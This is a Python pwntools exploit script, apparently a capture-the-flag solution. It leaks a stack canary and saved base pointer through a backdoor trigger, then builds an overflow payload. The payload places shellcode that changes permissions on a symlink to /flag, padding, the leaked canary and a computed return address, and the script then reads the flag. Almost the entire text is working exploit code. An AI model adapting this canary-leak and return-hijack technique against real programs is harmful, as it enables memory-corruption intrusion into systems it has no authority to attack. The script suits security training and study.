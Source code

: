 ```python


def leak_data(target):
    try:
        target.sendlineafter(b"Payload size: ", trigger_length)
        send_payload(target, backdoor_trigger)
        target.recvuntil(backdoor)

        canary = b"\x00" + target.recv(0x7)
        rbp = target.recv(0x6)
        log.success(f"Canary: {to_hex_bytes(canary)}\nRBP: {to_hex_bytes(rbp)}")

        return [canary, rbp]
    except Exception as e:
        log.exception(f"An error occurred while leaking canary: {e}")


def construct_payload(target):
    canary, rbp = leak_data(target)
    rbp = int.from_bytes(rbp, "little")

    ret_addr = rbp - fixed_offset

    shellcode = asm(shellcraft.chmod("f", 0o4))
    shellcode_length = len(shellcode)
    shellcode += b"".ljust(padding_to_v14_size - shellcode_length, b"A")
    shellcode += v14
    shellcode += padding_to_canary
    shellcode += canary
    shellcode += padding_to_ret
    shellcode += p64(ret_addr)

    return shellcode


def attack(target, payload):
    try:
        os.system("ln -s /flag f")

        payload_size = f"{len(payload)}".encode()
        target.sendlineafter(b"Payload size: ", payload_size)

        target.recvuntil(b"Send your payload")
        send_payload(target, payload)
        response = target.recvall(timeout=5)
        log.debug(response.decode("utf-8", errors="ignore"))

        try:
            with open("./f", "r") as file:
                content = file.read()

                log.success(content)
                return True
        except FileNotFoundError:
            log.exception("The file './f' does not exist.")
        except PermissionError:
            log.failure("Permission denied to read './f'.")
        except Exception as e:
            log.exception(f"An error occurred while performing attack: {e}")
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


```